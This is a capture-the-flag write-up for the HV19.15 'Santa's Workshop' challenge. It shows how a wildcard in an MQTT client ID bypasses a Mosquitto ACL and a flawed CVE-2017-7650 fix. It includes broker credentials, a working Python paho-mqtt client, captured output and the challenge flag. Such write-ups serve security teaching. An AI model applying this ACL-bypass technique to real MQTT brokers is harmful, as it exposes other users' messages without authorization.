 # HV19.15 - Santa's Workshop

| Author | Level | Categories |
|---|---|---|
| inik & avarx | hard | fun |

## Given
The Elves are working very hard.
Look at http://whale.hacking-lab.com:2080/ to see how busy they are.

config.js:

```js
var mqtt;
var reconnectTimeout = 100;
var host = 'whale.hacking-lab.com';
var port = 9001;
var useTLS = false;
var username = 'workshop';
var password = '2fXc7AWINBXyruvKLiX';
var clientid = localStorage.getItem("clientid");
if (clientid == null) {
  clientid = ('' + (Math.round(Math.random() * 1000000000000000))).padStart(16, '0');
  localStorage.setItem("clientid", clientid);
}
var topic = 'HV19/gifts/'+clientid;
// var topic = 'HV19/gifts/'+clientid+'/flag-tbd';
var cleansession = true;
```

mqtt.js:
```js
// ...
mqtt = new Paho.MQTT.Client(
                host,
                port,
                path,
                clientid
);
// ...

function onConnect() {
    mqtt.subscribe(topic, {qos: 0});
}
//...
```

The webapp on http://whale.hacking-lab.com:2080/ generated a random, 16-digit clientId to connect to the MQTT broker at ws://whale.hacking-lab.com:9001. In my case, this was 123888932589762459

### Hints
Due to stability problems, time is extended for +24h

1. When you have the webpage open and the counter is running (for your clientid), the challenge works for you
2. Due to server instability there are websockets hangups. Reload of webpage (or restart of your script) will help and lead to 1)
3. There are possibilities to crash the server with dedicated client-ids, eg. very long client-ids. For this, the length of client is now limited to 30. For longer client-ids no count nor flag is published

## Approach

I wrote a python client using https://pypi.org/project/paho-mqtt/ (also https://www.eclipse.org/paho/clients/python/ and https://www.eclipse.org/paho/files/jsdoc/Paho.MQTT.Client.html) to be able to play around in a bit more flexible fashion.

In the beginning, I had some trouble connecting to the broker, which was half due to the broker being down, half due to me, not changing the client's connection mode from `tcp` to `websocket`.

I started by using the clientId that was intended by the webapp (`123888932589762459`).

Trying to subscribe to the `"$SYS/#"` topic (see https://github.com/mqtt/mqtt.github.io/wiki/SYS-Topics), the following message was received: 
```
$SYS/broker/versionmosquitto version 1.4.11 (We elves are super-smart and know about CVE-2017-7650 and the POC. So we made a genious fix you never will be able to pass. Hohoho)
```

So, I need to be smarter than this. Also, looking at `config.js`, there is a comment indicating that the flag could be the name of a sub-topic underneath my clientId's topic. Let's keep this in mind.

Checking the CVE (see https://nvd.nist.gov/vuln/detail/CVE-2017-7650) and its fix (see https://bugs.eclipse.org/bugs/attachment.cgi?id=268603&action=diff), one could see that any clientId containing one of `[+#/]` (with `+` and `#` being MQTT wildcard operators, see https://www.ibm.com/support/knowledgecenter/en/SSFKSJ_7.5.0/com.ibm.mq.pla.doc/q005010_.htm) was not supposed to work. Let's check how the elves fixed that bug...

Setting the clientId to `#` indeed prevented from connecting to the broker. However, setting it to `abc/#` connects just fine. 

After a couple of attempts, I got the following working solution.

### Solution

Connect with:
```python
clientid="123888932589762459/#"  # or "123888932589762459/+"
topic="HV19/gifts/123888932589762459/#"  # or topic="HV19/gifts/123888932589762459/+"
```
Remember that the topic we want is located underneath the `HV19/gifts/123888932589762459` topic? Let's go for that.

This produces the following output:
```
log:  Received PUBLISH (d0, q0, r0, m0), 'HV19/gifts/123888932589762459/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r}', ...  (70 bytes)
2019-12-15 12:03:08.305653: HV19/gifts/123888932589762459/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r} (0) b'Congrats, you got it. The elves should not overrate their smartness!!!' 0 0 - (0, 0)
log:  Received PUBLISH (d0, q0, r0, m0), 'HV19/gifts/123888932589762459/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r}', ...  (70 bytes)
2019-12-15 12:03:08.306256: HV19/gifts/123888932589762459/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r} (0) b'Congrats, you got it. The elves should not overrate their smartness!!!' 0 0 - (0, 0)
log:  Received PUBLISH (d0, q0, r0, m0), 'HV19/gifts/123888932589762459/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r}', ...  (70 bytes)
2019-12-15 12:03:08.306764: HV19/gifts/123888932589762459/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r} (0) b'Congrats, you got it. The elves should not overrate their smartness!!!' 0 0 - (0, 0)
log:  Received PUBLISH (d0, q0, r0, m0), 'HV19/gifts/123888932589762459/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r}', ...  (70 bytes)
2019-12-15 12:03:08.404884: HV19/gifts/123888932589762459/HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r} (0) b'Congrats, you got it. The elves should not overrate their smartness!!!' 0 0 - (0, 0)
```

Why does the clientId need to include the wildcard operator? This is because how the ACL is defined. Mosquitto lets you define an ACL in the form of `pattern read HV19/gifts/%c` which allows each client to read only from topics matching the indicated prefix followed by their clientId.

Here's my very simple python client:

```python
import paho.mqtt.client as mqtt
import datetime

# The callback for when the client receives a CONNACK response from the server.
def on_connect(client, userdata, flags, rc):
    print("Connected with result code "+str(rc))
    client.subscribe(topic)
    client.subscribe(topic+"/#")

def on_subscribe(client, userdata, mid, granted_qos, *args, **kwargs):
	print(str(mid))

def on_log(client, userdata, level, buf):
	print("log: ",buf)

# The callback for when a PUBLISH message is received from the server.
def on_message(client, userdata, msg):
	timestamp=str(datetime.datetime.now())
	print(timestamp + ": " + msg.topic+" ("+str(msg.mid)+") "+str(msg.payload)+" "+str(msg.dup)+" "+str(msg.qos)+" - "+str(msg.info))


clientid="123888932589762459/#"

topic="HV19/gifts/123888932589762459"

client = mqtt.Client(client_id=clientid, clean_session=True, transport='websockets')
client.on_connect = on_connect
client.on_subscribe = on_subscribe
client.on_message = on_message
client.on_log = on_log

client.username_pw_set('workshop', '2fXc7AWINBXyruvKLiX')
client.connect("whale.hacking-lab.com", 9001, 60)

print("Looping")
client.loop_forever()
```

### A simpler approach

Probably the simplest approach would have been to go to the webapp's local storage in the browser and edit the clientId value by appending `/#` to the existing 16-digit value.

In the browser's network analysis tab, messages like the following can then be appreciated: 
```
00000000: 308f 0100 4748 5631 392f 6769 6674 732f  0...GHV19/gifts/
00000001: 3132 3338 3838 3933 3235 3839 3736 3234  1238889325897624
00000002: 3539 2f48 5631 397b 4e30 5f31 6e70 7574  59/HV19{N0_1nput
00000003: 5f76 346c 3164 3474 3130 6e5f 3371 7534  _v4l1d4t10n_3qu4
00000004: 6c73 5f64 3173 3473 7433 727d 436f 6e67  ls_d1s4st3r}Cong
00000005: 7261 7473 2c20 796f 7520 676f 7420 6974  rats, you got it
00000006: 2e20 5468 6520 656c 7665 7320 7368 6f75  . The elves shou
00000007: 6c64 206e 6f74 206f 7665 7272 6174 6520  ld not overrate 
00000008: 7468 6569 7220 736d 6172 746e 6573 7321  their smartness!
00000009: 2121                                     !!
```

## Flag
```
HV19{N0_1nput_v4l1d4t10n_3qu4ls_d1s4st3r}
```
